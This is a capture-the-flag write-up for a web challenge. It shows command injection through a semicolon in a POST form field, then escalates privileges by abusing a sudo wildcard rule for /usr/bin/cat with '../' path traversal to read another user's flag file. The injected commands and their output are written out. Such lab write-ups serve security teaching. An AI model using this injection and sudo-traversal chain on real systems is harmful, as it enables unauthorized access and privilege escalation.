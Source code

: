 # Intro
![](../img/TBOTD.png)

# Information gathering
Accessing the site displays a input field. Entering some text and submitting returns the content as part of a longer string / story in the "result-container".
![](../img/TBOTD_App.png)

When entering a text in the input field a ```POST``` request is made with a parameter in the body called ```name```.
```http
POST / HTTP/1.1
Host: 64.225.103.251:5006
Cookie: session=eyJpbnN0YW5jZV9pZCI6IjBkMjc0YjQzLTI3ZGMtNDNjOC1iN2I4LTIwOWEzYTc3M2ZhNiJ9.aBXj6Q.5ogh482Q7oyDZzviq1LqbGdfoOo
Content-Length: 8
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: https://64.225.103.251:5006
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://64.225.103.251:5006/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

name=whoami
```

The applications seems to handle special characters as just text in the app. The app just returns and displays  the content of the input.  
![](../img/TBOTD_Special_character.png)


But when entering a semicolon before the content something interesting is displayed in the page source. A "System Log" is returned with the results of the command.  
![](../img/TBOTD_Semicolon_system_log.png)

# Attack
The user that executing the commands is ```www-data```.
```
whoami

<!-- System Log: www-data -->
```

The files in the same directory as the application context are:
```
ls

<!-- System Log: ritual_1.log  ritual_2.log  ritual_3.log -->
```

Extracting the data in these files give some hints of where the ```sacred_scroll.txt``` (probably the flag) is hidden. One log also hints about that ```sudo``` may be necessary.  
```
cat ritual_1.log

<!-- System Log: Ritual 1 performed at 2025-04-22 08:15:23
Offering: wheat
Presiding Priest: Amenhotep
Note: High Priest keeps sacred_scroll.txt in their home directory. -->
```

```
cat ritual_2.log

<!-- System Log: Ritual 2 performed at 2025-04-22 10:30:45
Offering: bread
Presiding Priest: Ramose
Warning: Remember that the power of sudo must be wielded with precision. Always specify the full path to commands. -->
```

```
cat ritual_3.log

<!-- System Log: Ritual 3 performed at 2025-04-22 14:22:10
Offering: gold
Presiding Priest: Ptahmose
Note: Guard the sacred /path/, for each /traversal/ may awaken curses best left untouched. -->
```

Checking what ```sudo``` privileges the context user is given. The user ```www-data``` is able to execute the ```/usr/bin/cat /var/log/ritual/*``` as the user ```high_priest``` with out needing to enter a password.
```
sudo -l

<!-- System Log: User www-data may run the following commands on oracle-server:
    (high_priest) NOPASSWD: /usr/bin/cat /var/log/ritual/*
 -->
```

Using `sudo -u`, a command can be executed as another user. In this case, it allows the execution of `/usr/bin/cat /var/log/ritual/*` as the `high_priest` user. The wildcard `*` means any file or sub directory under `/var/log/ritual/` can be targeted.

However, if the `sudo` rule is not strictly validating the full resolved path (i.e., it only checks that the command starts with `/usr/bin/cat /var/log/ritual/`), then directory traversal using `../` can potentially bypass the intended restriction. By using `../../../`, it's possible to navigate back to the root (`/`), and then access files elsewhere in the system, such as `/home/high_priest/sacred_scroll.txt`.
```
sudo -u high_priest /usr/bin/cat /var/log/ritual/../../../home/high_priest/sacred_scroll.txt

<!-- System Log: O24{th3_scr1b3_r3v34ls_h1dd3n_tr34sur3s} -->
```